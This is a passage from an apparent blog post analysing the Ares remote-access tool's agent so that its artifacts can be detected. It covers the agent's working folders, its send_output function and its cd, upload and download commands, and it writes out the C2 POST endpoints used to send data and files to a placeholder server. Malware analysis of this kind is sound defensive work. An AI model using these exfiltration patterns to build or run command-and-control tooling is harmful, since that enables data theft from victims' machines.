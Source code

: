 If the **_“agent”_** is installed, a file named **“failed\_connections”** will get created in the **_“%USERPROFILE%/ares”_** folder on Windows systems and in **_“~/.ares”_** folder on Linux systems.

The next set of functions that’ll get executed will depend on what command(s) the C2 server will send. Most of the functions contain some unique artifact(s) that’ll help us detect the behavior or functionality being used.

One thing to note before we get into the supported commands. Is that almost all command make use of a function called **_“send\_output”_**.

![](https://miro.medium.com/v2/resize:fit:1068/1*djiDHtRx_hWB0uXg5UHm0w.png)

“send\_output” Function

The role of this function is to send any data back to the C2 server via a post request using this URL

```
POST http(s)://[SERVER_IP]/api/USERNAME_[UUID]/report
```

Bellow are the commands supported by the agent.

## cd

This command simply changes the current directory to whatever is sent from the C2

![](https://miro.medium.com/v2/resize:fit:654/1*HJV-70b1d0DThx_kN76tvA.png)

“cd” Command

## upload

The agent can upload any file to the C2 server. The file in question will be sent via a post request to the following URL:

```
POST http(s)://[SERVER_IP]/api/USERNAME_[UUID]/upload
```

![](https://miro.medium.com/v2/resize:fit:1090/1*Wip1adjCQRuy_JMJcl3lLQ.png)

“upload” command

## download

This command acts as a download agent. Where the C2 server will send a remote file to be downloaded and specify a location to store it.

![](https://miro.medium.com/v2/resize:fit:1014/1*aJyEdoi14i4tyVigWd8Qhg.png)

“download” Function

The agent will send first an output to the C2 via the “send\_output” function indicating the start of the download. Then a “get” request will be made to whatever URL was provided from the C2.

